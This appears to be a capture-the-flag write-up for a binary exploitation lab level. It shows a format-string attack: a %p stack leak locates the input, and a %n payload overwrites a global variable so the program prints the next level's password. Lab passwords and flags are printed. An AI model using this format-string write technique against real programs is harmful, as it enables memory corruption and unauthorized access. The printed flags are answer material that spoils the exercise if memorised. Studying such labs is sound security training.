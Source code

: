 # Level 4
*password : b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa*

```
$ scp -P 4242 level4@192.168.56.108:level4 .
```

```
  if (m == 0x1025544) {
    system("/bin/cat /home/user/level5/.pass");
```

`0x1025544` = 16930116\
`m` address = 0x08049810

```
$ python -c 'print "\x10\x98\x04\x08 %p %p %p %p %p %p %p %p %p %p %p %p"' | ./level4
DU 0xb7ff26b0 0xbffff784 0xb7fd0ff4 (nil) (nil) 0xbffff748 0x804848d 0xbffff540 0x200 0xb7fd1ac0 0xb7ff37d0 0x1025544
```

address at parameters 12th.

```
$ python -c 'print "\x10\x98\x04\x08%16930112u%12$n"' > /tmp/level4
$ cat /tmp/level4 - | ./level4
...
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a

```


